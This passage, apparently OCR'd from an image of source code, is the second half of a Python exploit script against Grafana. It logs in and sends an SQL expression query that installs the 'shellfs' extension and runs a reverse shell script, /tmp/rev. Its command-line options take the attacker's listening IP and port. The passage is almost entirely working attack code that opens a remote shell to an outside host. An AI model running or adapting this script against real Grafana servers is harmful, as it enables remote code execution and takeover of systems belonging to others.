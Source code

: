 ```py
            {
                "datasource": {
                    "name": "Expression",
                    "type": "__expr__",
                    "uid": "__expr__"
                },
                # install and load the community extension "shellfs" to execute system commands (here: execute our reverse shell)
                "expression": "SELECT 1;install shellfs from community;LOAD shellfs;SELECT * FROM read_csv('bash /tmp/rev |');",
                "hide": False,
                "refId": "B",
                "type": "sql",
                "window": ""
            }
        ]
    }

    # Trigger the reverse shell via POST
    response = session.post(
        f"{grafana_url}/api/ds/query?ds_type=__expr__&expression=true&requestId=Q100",
        json=payload
    )

    if response.ok:
        print("Triggered reverse shell successfully!")
    else:
        print("Failed to trigger reverse shell:", response.status_code, response.text)

def main(grafana_url, username, password, reverse_ip, reverse_port):
    # Authenticate to Grafana
    session = authenticate(grafana_url, username, password)

    if session:
        # Create the reverse shell payload
        create_reverse_shell(session, grafana_url, reverse_ip, reverse_port)

        # Trigger the reverse shell binary
        trigger_reverse_shell(session, grafana_url)

if __name__ == "__main__":
    # Set up command line argument parsing
    parser = argparse.ArgumentParser(description='Authenticate to Grafana and create a reverse shell payload')
    parser.add_argument('--url', required=True, help='Grafana URL (e.g., http://127.0.0.1:3000)')
    parser.add_argument('--username', required=True, help='Grafana username')
    parser.add_argument('--password', required=True, help='Grafana password')
    parser.add_argument('--reverse-ip', required=True, help='Reverse shell IP address')
    parser.add_argument('--reverse-port', required=True, help='Reverse shell port')

    args = parser.parse_args()

    # Call the main function with the provided arguments
    main(args.url, args.username, args.password, args.reverse_ip, args.reverse_port)
```
